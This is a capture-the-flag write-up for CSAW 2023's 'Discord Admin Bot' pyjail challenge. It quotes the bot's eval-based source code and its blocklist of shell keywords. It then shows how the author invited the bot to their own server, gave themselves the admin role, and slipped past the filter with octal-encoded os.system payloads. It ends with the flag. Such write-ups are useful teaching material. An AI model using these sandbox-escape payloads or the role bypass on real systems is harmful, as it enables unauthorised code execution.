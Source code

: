 # Discord Admin Bot

### Description

>Join discord and get the flag.
>discord.gg/csaw23 [repeated 9 times]

Provided file `bot_send.py` is as follows
```python
#############################################
# Author: Krishnan Navadia
# This is main working file for this chal
#############################################

import discord
from discord.ext import commands, tasks
import subprocess

from settings import ADMIN_ROLE
import os
from dotenv import load_dotenv
from time import time

load_dotenv()

TOKEN = os.getenv("TOKEN")

intents = discord.Intents.default()
intents.messages = True
bot = commands.Bot(command_prefix="!", intents=intents)

bot.remove_command('help')

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

COOLDOWN = []

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"


@bot.event
async def on_ready():
    print(f'{bot.user} successfully logged in!')

@bot.command(name="flag", pass_context=True)
async def flag(ctx):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)

    if admin_flag:
        cmds = "Here are some functionalities of the bot\n\n`!add <number1> + <number2>`\n`!sub <number1> - <number2>`"
        await ctx.send(cmds)
    else:
        message = "Only 'admin' can see the flag.😇"
        await ctx.send(message)

@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")


@bot.command(name="help", pass_context=True)
async def help(ctx, *args):
    await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")


@bot.event
async def on_command_error(ctx, error):
    if isinstance(error, commands.CommandNotFound):
        await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")
    else:
        print(f'Error: {error}')


bot.run(TOKEN)
```

### Solution

Having no experience with Discord bots, I thought this would be an interesting opportunity to learn something new, and I was right! Examining the code above, I could see the bot appeared to some commands !flag, !help, !add, and !sub, but all the commands except !help have their interesting parts guarded by an admin role check.

Right away we can see that there is some kind of input sanitization going on with a list of disallowed strings.

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]
```

The most interesting part of the code is the `pyjail` function, which is called by the !add and !sub commands. It opens a subprocess to execute the console command `python -c print(eval({text}))`, where `text` contains the arguments from the !add or !sub and returns the output. We can see from the 3rd line that the developer is worried about preventing the user issuing shell commands, and with good reason, This is clearly opens up a command injection attack if we can get around the admin checks and input sanitization.

```python
def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```

Examining the !add command closely, we can see that it checks if the user issuing the command has the 'ADMIN_ROLE', which is defined from another file, only then does it call pyjail with our input arguments.

```python
@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

```

I couldn't see any way to bypass or overwrite the role check, and it seemed obvious there was no way to obtain this role on the CSAW Discord server. That seemed to leave only one possibility. Could I get the bot on a server I control? Would it be the same bot with access to the flag? I realized I needed to do some research to confirm my ideas, so I started googling for past CTF writeups involving Discord bots. I quickly stumbled on [this writeup](https://ctftime.org/writeup/33674), which indeed showed how to invite a public bot to your own server using an invite link. Following the steps in that writeup, I created the invite link below, which I pasted in my browser.

`https://discord.com/oauth2/authorize?client_id=1152454751879962755&permissions=8&scope=bot`

It worked! The bot was in my server!

![](./images/discord_join.png)

Based on the helpful message, I surmised that `ADMIN_ROLE` was simply `admin` and gave myself this role. Now I had access to the commands.

Attempting the obvious, issuing commands like `!add import('os').system('whoami')` were filtered by the input sanitization list and bot responded with `No shells are allowed`.

Some googling later, I found [this page on bypassing pyjails](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), the section on [eval-ing Python code](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#eval-ing-python-code) was most helpful. The first thing I tried that worked was the octal encoding of `__import__('os').system('ls')`

`!add \137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51`

Progress! Now changing the Python command to `__import__('os').system('cat flag.txt')` and encoding in octal I can issue the command

`!add \137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\146\154\141\147\56\164\170\164\47\51` 

Which gives the flag: `csawctf{Y0u_4r3_th3_fl4g_t0_my_pyj4il_ch4ll3ng3}`
